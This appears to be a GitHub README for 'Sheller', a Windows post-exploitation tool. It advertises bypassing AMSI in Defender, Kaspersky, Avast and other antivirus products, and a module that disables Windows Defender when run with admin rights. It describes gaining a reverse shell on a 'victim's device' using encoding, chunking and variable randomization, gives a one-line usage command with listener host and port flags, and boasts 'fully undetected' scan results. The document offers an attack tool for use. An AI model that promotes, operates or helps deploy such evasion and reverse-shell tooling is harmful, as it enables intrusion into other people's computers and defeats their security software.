 # Sheller

Sheller is a Windows Post Exploitation Tool to bypass all known Anti-Malware Scanner Interfaces including Defender, Bitdefender, Kaspersky, McAfee, NANO-Antivirus, Kingsoft, Avast, Avira and many more.

![](https://user-images.githubusercontent.com/73026669/150165109-71b9f841-3b8e-42bd-a502-5d666244eaaf.png)

For use python3 and powershell (Windows) or pwsh (Linux) is required, the script supports Windows and Linux application.
The module sheller is to gain reverse shell to the victims device, providing several amsi bypass module such as encoding chunking and var randomization.
There is a module to disable any windows defender antivirus feature if executed with admin privileges too.
``
python sheller.py -s xy.bat -lh lh -lp 12 -b64: 
``

<a href="https://www.virustotal.com/gui/file/2fc4ec778c03a989fd74fa878617dc22e7efc35e8d906b51af611562d1b0b418?nocache=1">fully undetected AMSI Scan Results</a>
